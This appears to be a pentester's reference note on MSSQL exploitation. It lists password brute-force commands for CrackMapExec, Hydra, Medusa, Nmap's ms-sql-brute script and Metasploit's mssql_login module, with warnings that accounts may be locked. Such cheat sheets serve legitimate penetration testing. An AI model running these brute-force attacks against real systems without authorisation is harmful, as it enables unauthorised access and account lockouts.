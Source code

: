 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/MSSQL/Exploitation
---
```


# Exploitation

## Brute Force

> [!tip]
>
> Use the NetBIOS name of the machine as domain

### CrackMapExec

```sh
crackmapexec mssql <target_ip> -d <domain_name> -u usernames.txt -p passwords.txt
```

### Hydra

```sh
hydra -L <usernames.txt> –P <passwords.txt> <target_ip> mssql
```

### Medusa

```sh
medusa -h <target_ip> –U <usernames.txt> –P <passwords.txt> –M mssql
```

### Nmap

```sh
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host>
```

> [!warning]
>
> This may block user accounts

### Metasploit

> [!warning]
>
> This may block user accounts
>
> Set the domain (if any) and use `USE_WINDOWS_ATHENT`

```sh
msf> use auxiliary/scanner/mssql/mssql_login
```
